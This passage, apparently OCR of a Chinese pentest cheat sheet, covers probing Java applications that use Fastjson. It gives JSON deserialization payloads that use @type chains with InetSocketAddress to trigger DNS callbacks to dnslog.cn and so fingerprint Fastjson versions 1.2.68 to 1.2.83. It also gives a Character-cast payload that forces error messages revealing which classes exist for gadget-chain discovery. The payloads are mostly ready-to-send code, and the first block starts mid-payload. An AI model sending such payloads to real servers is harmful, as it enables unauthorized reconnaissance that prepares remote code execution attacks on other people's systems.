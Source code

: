 ```json  
    "val": "dnslog"
  }
}
]  
```

### 1.2.80

在68和80都只会接收到第一个dnslog请求，83会收到第二个请求

```json  
[
  {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "x": {
      "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "1.dnslog.cn"
  }
}
},
  {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "message": {
      "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "2.dnslog.cn"
  }
}
}
]  
```

# 利用链探测

## Character 报错回显

探测到存在的类时将 Class 强转为 Char 导致报错回显

```json  
{
  "x": {
    "@type": "java.lang.Character"{
  "@type": "java.lang.Class",
  "val": "com.fastjsoncheck.User"
}
}  
```
